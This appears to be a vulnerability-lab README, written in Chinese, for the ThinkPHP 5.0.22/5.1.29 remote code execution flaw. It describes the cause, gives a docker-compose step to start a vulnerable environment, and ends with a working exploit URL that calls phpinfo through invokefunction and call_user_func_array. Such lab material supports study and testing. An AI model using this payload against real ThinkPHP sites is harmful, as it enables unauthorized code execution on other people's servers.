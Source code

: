 # ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 漏洞环境

运行ThinkPHP 5.0.20版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行phpinfo：

![](1.png)
